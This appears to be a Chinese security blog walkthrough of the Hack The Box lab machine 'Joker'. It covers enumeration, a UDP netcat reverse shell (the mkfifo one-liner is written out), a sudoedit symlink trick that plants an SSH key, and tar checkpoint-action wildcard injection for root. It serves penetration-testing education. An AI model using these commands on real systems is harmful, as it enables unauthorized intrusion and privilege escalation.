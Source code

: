 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SVVkUpVA0JyFuZOOp-twkQ)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **195** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_gif/ldWFh337rbjfApaRGicR1GGwHDCYPhsKZ9euLodKu0upoCBupGzffThUrZlyL2I0qu4OzmzGg3YQ4JPhJ2UZ18A/640?wx_fmt=gif)

靶机地址：https://www.hackthebox.eu/home/machines/profile/20

靶机难度：中级（4.0/10）

靶机发布日期：2017 年 10 月 17 日

靶机描述：

Joker can be a very tough machine for some as it does not give many hints related to the correct path, although the name does suggest a relation to wildcards. It focuses on many different topics and provides an excellent learning experience.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_gif/sDKv42fen7ibImvibcQAzTWKALz80xXATRNaLArXkQdFJlXIoVCNT7P5mhyWCLXiaicY56ibiaTEg2Ir5PQdaiajY4J7A/640?wx_fmt=gif)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDumNN0KG2Pzad0hVBkpJzaNXXbJUXxe3HfuhKichQ7ccs1RMiaNCjZ2vRA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.21....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuseibblxJ3rLMpYvibUPm9nJD0Y90njUdpMiaib3ONwZNH0I7T5qyCrDQ0A/640?wx_fmt=png)

nmap 扫描发现了 22 和 3128 代理端口... 这需要填写代理信息... 进一步枚举

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuWRuFQ9atUmGeqH4sp3smppURuqLhXeV40KnUwYJO39JUntfXE6K8tw/640?wx_fmt=png)

nmap 扫描了 UDP 端口，开放了 TFTP...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuliaoGtp7XUQkDBV6Zp6pqDf3rKlkib1aREHSBJOpsZiaWcias8h4wydm3w/640?wx_fmt=png)

枚举 TFTP 发现了 password 哈希信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDud575TsGiapH8p7T5rWDSKxHECJHTVSjOhpYE1elsMWHYOiaLrF0XDVUA/640?wx_fmt=png)

这里利用 john 爆破获得用户名密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuHIAhnsP9XY2nhw773PbZvAHkHkrunQHQw2HV4SgWp9qQs6Tibib9CTXQ/640?wx_fmt=png)

通过插件填写代理用户名密码以及 3128 端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuL38sb5PMIrQ0yg0qymU3MgW9S7KGofZ4Rd2Zs7IEficIMboUWftrrOA/640?wx_fmt=png)

访问靶机 IP，是个报错页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDudDLGgz6xS3jjhEdKMTAXNwvBvtcpvMjHWmYEGCmP1edQGYWTUltnGQ/640?wx_fmt=png)

访问 127.0.0.1 发现是 URL？利用 sqlmap 枚举了一会，没利用信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuHAwCicAbVdhkgwD4Q08Z3aB8VjwoESmNCrMIEKIfMialZibEpM9OVDicew/640?wx_fmt=png)

这里利用 dirb 和 nikto 发现了 console 页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDu4O2MNd5wpt5IzJlhmibib4aDz1GtnzOVnvLpdbiaW0Q2icEFWBZlbgUsicw/640?wx_fmt=png)

访问后这是一个 python 开发人员使用的控制台...

Python 反向 Shell 开始编写代码... 其中测试了 ping 命令 icmp 是回包的...

但是直接输入 shellcode 没回应...

检查了防火墙发现：

首先将 “入站” 设置为默认值 DROP，将出站和转发设置为默认值 ACCEPT...

允许 TCP 22 入站，允许 TCP 3128 入站，允许所有 UDP 入站，允许所有 ICMP 入站，允许所有本地主机入站，所有新的出站 TCP 连接均被删除.... 没有允许出站 tcp 连接...

这里 TCP 的 shell 无法执行的情况，只能利用 UDP 的 shell 方法了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDueMd22vz5ZichTCMFntaXRRvBmEOjVENWsFr1ia00ibhp8egliaDnqia4RyA/640?wx_fmt=png)

```
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.6 6666 >/tmp/f").read()
```

这里方法很多，利用 `pentest monkey reverse shell` 中的 shell 提权即可... 都可以利用... 可看到获得了反向外壳...

这里经过测试很多都不是很稳定... 自己慢慢测试吧...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDu48GKyGqEuuE1HnBS90Vb7owiaicBaVNgjjIy3jY3e9Uia9AH26nJ37ZIQ/640?wx_fmt=png)

sudo -l 发现可利用 sudoedit.... 搜索看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuqricxib0nOiaVCLCCtBgD3B86CU03RicbFz7JdWl7WiakCYU4Ib0FDeDib4A/640?wx_fmt=png)

37710.txt：

在链接的漏洞利用程序中，如果两次使用通配符，则 sudoedit 不会检查完整路径，他们创建了一个指向的符号连接 / etc/shadow，为我们执行此操作实际上对我们而言是行不通的，因为仅具有 alekos 而不是 root 的 sudoedit 权限，因此可以做的是创建一个指向 alekos ssh 授权密钥文件的符号链接，然后编辑该文件以添加到我们的公共 ssh 密钥中... 开始

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuLD8qOAhaV3NXdmoJJVHn3k0VNBJ0bRjLjh4w6msEUibRRicLQ2bIyUmg/640?wx_fmt=png)

在目录下创建新的文件夹 dayu，然后 `ln -s /home/alekos/.ssh/authorized_keys layout.html` 进行连接...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuyQcLESMLwemOmEpZZKicWhACe7DfF8ozPMeoXGkpicwF7KcIc3zOqicSA/640?wx_fmt=png)

最后可以利用 ssh-key 生成 ssh 密匙，我这里使用的是 kali 本身 root 自带的密匙...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuoiahWCAArRyOSTIGvmZ4d4ibEyFkPaMoyFIUEEvibYPtP0kUXCliafAJmQ/640?wx_fmt=png)

将密匙码复制入 layout.html 中即可...

这里还是挺坑的，很不稳定的 shell 外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuWw6rxmrl2JbkVMEEq7FWJVgXXuP5yhcpvtrxRTvkc8MoCb3mtqBvvQ/640?wx_fmt=png)

成功利用好，登录了 ssh 的 alekos 用户界面内... 获得了 user_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuia6eCqa9785Dfny7LfRv0lvoToYR8porUhPR0AOxMJ3ickXPOtR0GqNg/640?wx_fmt=png)

枚举了一会发现了目的底层存在 backup 和 development 文件夹... 进入发现了问题...

backup 文件夹内每隔几分钟会自动生成一个 tar 压缩文件...

我随意解压了任意一个压缩包，发现里面的信息和 development 文件夹内容一样...

意思就是每隔五分钟 tar 压缩包会在 development 目录上运行一次...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPialmJbFnibHxjGAvfrKXnDuPO4TS3Hv6Lico93U5KicB3DNo9UYEOGMaSKzou7qa1h8Qx2yTQd9qnvg/640?wx_fmt=png)

```
touch -- --checkpoint=1
touch -- '--checkpoint-action=exec=python shell.py'
chmod +x shell.py
```

这里进入 backup 目录并使用它 touch 来创建两个文件，一个是 --checkpoint=1。这将对添加到归档中的第一条记录触发检查点进行操作...  

第二个是 --checkpoint-action=exec=python shell.py，意思就是告诉它在到达检查点时 tar 压缩包来运行 shell.py 的 shellcode....

![](https://mmbiz.qpic.cn/mmbiz_gif/ldWFh337rbjfApaRGicR1GGwHDCYPhsKZ9euLodKu0upoCBupGzffThUrZlyL2I0qu4OzmzGg3YQ4JPhJ2UZ18A/640?wx_fmt=gif)

该 shell.py 很简答的 shell，等待了几分钟，获得了 root 的反向外壳...

并获得了 root_flag 信息... 非常好！！

这台靶机是通关后补的，因为在 python 开发页面哪里提的 shell 外壳非常非常不稳定... 当初刚打到这台靶机的时候，一直没过卡着，也是通关完 HTB 后回头补了这台... 回头打的时候感觉好简单啊...

这里建议多测试下提权的 shellcode，多测试几个有些是稳定的...

加油！！

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)